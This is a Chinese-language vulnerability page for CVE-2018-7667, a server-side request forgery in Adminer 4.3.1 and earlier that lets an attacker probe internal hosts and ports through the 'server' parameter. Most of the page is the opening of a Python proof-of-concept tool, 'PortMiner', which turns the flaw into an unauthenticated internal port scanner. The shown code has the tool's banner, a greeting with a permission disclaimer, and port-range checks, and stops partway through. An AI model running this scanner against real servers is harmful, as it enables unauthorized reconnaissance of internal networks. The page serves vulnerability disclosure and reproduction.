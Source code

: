 <h1>（CVE-2018-7667）Adminer 服务器端请求伪造漏洞</h1>
<h2>一、漏洞简介</h2>
<p>Adminer 4.3.1及之前版本存在服务器端请求伪造漏洞。攻击者可借助‘server’参数利用该漏洞绕过防火墙，确定内部主机，扫描其他服务器的端口。</p>
<h2>二、漏洞影响</h2>
<p>Adminer&lt;=4.3.1</p>
<h2>三、复现过程</h2>
<h3>poc</h3>
<pre><code class="language-python">import socket,re,ssl,warnings,subprocess,time
from platform import system as system_name 
from os import system as system_call

#Adminer Server Side Request Forgery
#PortMiner Scanner Tool
#by John Page (hyp3rlinx)
#ISR: ApparitionSec
#hyp3rlinx.altervista.org 
#=========================
#D1rty0Tis says hi.

#timeout
MAX_TIME=32
#ports to log
port_lst=[]  
#Web server response often times out but usually means ports open.
false_pos_ports=['80','443'] 

BANNER='''
           ____            _   __  __ _                  
          |  _  \         | | |  \/  (_)                 
          | |__) |__  _ __| |_| \  / |_ _ __   ___ _ __  
          |  ___/ _ \| '__| __| |\/| | | '_ \ / _ \ '__| 
          | |  | (_) | |  | |_| |  | | | | | |  __/ |    
          |_|   \___/|_|   \__|_|  |_|_|_| |_|\___|_|                                                                                                             
       '''                               
   

def info():
    print "\nPortMiner depends on Error messages to determine open/closed ports."
    print "Read operations reported 'timed out' may be open/filtered.\n"


def greet():
    print 'Adminer Unauthenticated SSRF Port Scanner Tool'
    print 'Targets Adminer used for MySQL administration\n'
    print 'by hyp3rlinx - apparition security'
    print '-----------------------------------------------------\n'
    print 'Scan small ranges or single ports or expect to wait.\n'
    print 'Do not scan networks without authorized permission.'
    print 'Author not responsible for abuse/misuse.\n'

    
def chk_ports(p): 
    p=p.replace('-',',')
    port_arg=p.split(',')
    try:
        if len(port_arg)&gt;1:
            if int(port_arg[1]) &lt; int(port_arg[0]):
                print 'Port range not valid.'
                raw_input()
                return
            if int(port_arg[1])&gt;65535:
                print 'Exceeded max Port range 65535.'
                raw_input()
                return